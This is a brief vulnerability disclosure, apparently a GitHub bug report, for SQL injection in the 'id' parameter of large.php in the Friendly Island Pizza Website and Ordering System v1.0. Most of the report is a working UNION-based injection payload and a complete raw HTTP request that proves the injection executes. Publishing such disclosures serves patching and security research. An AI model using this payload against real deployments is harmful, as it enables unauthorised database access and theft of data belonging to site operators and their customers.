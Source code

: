 # Friendly Island Pizza Website and Ordering System v1.0 has SQL injection

BUG_Author:tangtangtang123456

Website source address：https://www.sourcecodester.com/php/14730/friendly-island-pizza-website-php-mysql.html

Vulnerability File: /FriendlyIsPizzaWebsite/large.php

GET parameter 'id' exists SQL injection vulnerability

Payload:id=1 union all select null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null--

```
GET /FriendlyIsPizzaWebsite/large.php?id=1%20union%20all%20select%20null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null-- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

The concat statement executes successfully

![image](https://github.com/tangtangtang123456/bug_report/blob/main/pictures/1.png)
